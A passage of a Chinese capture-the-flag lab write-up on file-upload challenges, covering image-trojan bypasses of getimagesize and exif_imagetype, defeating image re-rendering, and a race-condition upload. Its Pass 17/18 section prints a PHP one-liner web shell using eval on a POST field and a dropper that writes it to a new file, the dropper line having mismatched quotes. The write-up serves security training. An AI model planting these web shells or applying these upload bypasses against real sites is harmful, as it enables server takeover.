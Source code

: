 访问图片

```
http://39f12657-51c0-486d-893a-7f82c1c9f47e.node4.buuoj.cn:81/include.php?file=upload/5520211116122413.jpg
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/b0b068d339f24d37a9f9d0404b4bce08.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

可以看到最后出现了hello world，说明上传成功了

## Pass 14（图片马）

同13一样，还是可以图片马上传绕过，只是这里用了getimagesize函数来对文件类型做判断

![在这里插入图片描述](https://img-blog.csdnimg.cn/bf5a63e521084bfeabfce30df09b9dc6.png)

## Pass 15（图片马）

用了exif_imagetype函数用于确定图像的类型，还是可以用图片马绕过，方法同13，14

## Pass 16（二次渲染）

二次渲染，会将上传的图片进行更改，然后原来写入图片的木马就会消失，所以我们先上传一个png的图片

用HxD打开上传前

![在这里插入图片描述](https://img-blog.csdnimg.cn/b72aefe82e0b40e48133b137ea4e9c96.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

上传之后系统会返回给我们一个二次渲染后的文件，打开，

发现我们的木马消失了

![在这里插入图片描述](https://img-blog.csdnimg.cn/fd0265fe51744589b9c2c404805426e3.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

所以我们对比两张图片相同的地方，在里面插入shell就可以绕过了。

## Pass 17,18（条件竞争上传）

使用burpsuite抓包上传1.php，一直重放上传文件
1.php内容：

```
<?php fputs(fopen('2.php','w'),<?php @eval($_POST["x"])?>‘);?>
```

访问了1.php文件，php文件就会成功执行，自动创建一个2.php，写入一句话木马：

```
<?php @eval($_POST["x"]);?>
```

用Burp不断上传，再用burp不断访问即可

## Pass 20（递归/.）
